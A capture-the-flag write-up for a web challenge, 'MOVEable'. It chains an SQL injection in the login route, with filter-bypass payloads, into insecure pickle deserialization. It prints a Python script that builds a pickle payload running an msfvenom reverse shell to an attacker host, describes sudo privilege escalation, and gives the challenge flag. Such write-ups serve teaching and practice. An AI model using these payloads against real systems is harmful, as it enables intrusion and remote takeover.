




# MOVEable

Difficaulty: `Medium`  
Author: `@JohnHammond`  
Category: `Web`  
Points: `376`

## Description

Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?

Well now you can, with our super secure app, MOVEable!

Escalate your privileges and find the flag.

### Attachments

[app.zip](./attachments/app.zip)

## Solution

Luckily, we have the source code of this challenge. so, we can try to exploring the source code to find if there is any vulnerability.

### Enumeration

For this challenge, I found **2** vulnerabilities in the source code.

1. **SQL Injection**  
   We can see that there is a SQL Injection vulnerability located in **login route**.

   ```python
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
   ```

2. **Remote Code Execution**  
   We can see that code using [pickle.load](https://docs.python.org/3/library/pickle.html) to unpack the data which is
   vulnerable to execute arbitrary code during unpacking. located in **download route**

   ```python
    file_blob = pickle.loads(base64.b64decode(file_data[0]))
   ```

With this information, we know that we can exploit following this steps:

1. Inject malicious SQL statement includes:  
   To create fake active session

   ```
   \;INSERT/**/INTO/**/activesessions/**/VALUES/**/(\foo\,\foo\,\foo\);--
   ```

   To insert reverse shell payload to database

   ```
   \;INSERT/**/INTO/**/files/**/VALUES/**/(\payload\,\<data>\,\foo\);--
   ```

2. Request **GET /downloads/payload/foo** to invoke `pickle.load` function and the payload will be executed.
3. Get reverse shell connection and escalate privilege to get the flag.

**_Input Filter Bypass Breakdown_**

`/**/` used instead of whitespace.  
`\` used to escape the single quote.

### Prepare the payload

Script used to create pickle payload  
Ref: [
Exploiting Python pickles ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

```python
import os
import pickle
import base64

# Using msfvenom to generate reverse shell payload
# msfvenom -p cmd/unix/reverse_python LHOST=<host> LPORT=<port> R
command = "python3 -c \"exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('<reverse_shell_payload>')[0])))\""

class rce(object):
    def __reduce__(self):
        return (os.system, (command,))

print(base64.b64encode(pickle.dumps(rce())))
```

### Exploit

From our enumeration and payload preparation, we will start exploit with steps that I have mentioned.

Perform SQL Injection to create fake active session and create malicious file in database.



Setup reverse shell listener.



Execute pickle.load by request **GET /downloads/payload/foo**



Reverse shell listener catched the connection. To perform privilege escalation, we can perform privilege escalation by simply try to run `sudo -l` to see if we can run any command as root.  
In this case, current user is in sudoers list and can run any command as root via `sudo` without password.



## Flag

```txt
flag{ac53cd7aa8a2d1b2340a6eb4a356709e}
```
